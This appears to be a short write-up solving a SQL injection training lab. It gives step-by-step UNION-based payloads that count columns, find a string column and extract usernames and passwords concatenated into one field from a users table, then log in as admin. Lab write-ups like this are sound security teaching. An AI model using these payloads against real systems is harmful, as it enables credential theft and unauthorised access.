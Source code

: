 
### SQL injection UNION attack, retrieving multiple values in a single column : PRACTITIONER

---

> Get the number of columns.
```
' UNION SELECT NULL, NULL--
```
> They are 2.

> Identify the data types.
```
' UNION SELECT 'a', NULL--
' UNION SELECT NULL, 'a'--
```
> The second item only is of type string.

> Get the username and password texts both concatenated in the second field.
```
' UNION SELECT NULL, username || ':' || password FROM users--
```

> Get the admin password and login to complete the lab.

---
